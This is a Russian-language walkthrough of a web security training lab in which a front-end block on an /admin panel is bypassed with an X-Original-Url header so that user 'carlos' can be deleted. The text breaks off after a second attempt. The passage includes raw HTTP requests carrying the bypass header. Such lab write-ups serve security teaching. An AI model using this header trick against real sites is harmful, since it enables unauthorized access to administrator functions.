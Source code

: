 Этот веб-сайт имеет неаутентифицированную панель администратора по адресу `/admin`, но система front-end была настроена на блокировку внешнего доступа к этому пути. Однако приложение back-end построено на фреймворке, который поддерживает `X-Original-URL`заголовок.

Чтобы решить лабораторную работу, войдите в панель администратора и удалите пользователя `carlos`.

## Дано

- веб-сайт имеет неаутентифицированную панель администратора по адресу `/admin`
- имеет блокировку внешнего доступа к этому пути
- поддерживает `X-Original-URL`заголовок
## Задача

- удалить пользователя `carlos`

# Решение 

1. Попробуем зайти по /admin и добавить заголовок `X-Original-URL` с параметром
Убираем `GET /admin HTTP/2` в `GET / HTTP/2` и добавляем `X-Original-Url: /admin`
```
GET / HTTP/2
Host: 0a500034049c875980d5b245004f00b9.web-security-academy.net
X-Original-Url: /admin
Cookie: session=CM5RoUftryAq2OdSQRuf2Xzx2MxoMrvR
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a500034049c875980d5b245004f00b9.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```
Получаем ответ 200
![[Pasted image 20250226163407.png]]

Формируем `X-Original-Url: /admin/delete?username=carlos`

Получили ответ что мы так не можем пробуем изменить заголовок url
```
POST /delete?username=carlos HTTP/2
Host: 0a500034049c875980d5b245004f00b9.web-security-academy.net
X-Original-Url: /admin/delete?username=carlos
Cookie: session=CM5RoUftryAq2OdSQRuf2Xzx2MxoMrvR
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a500034049c875980d5b245004f00b9.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```
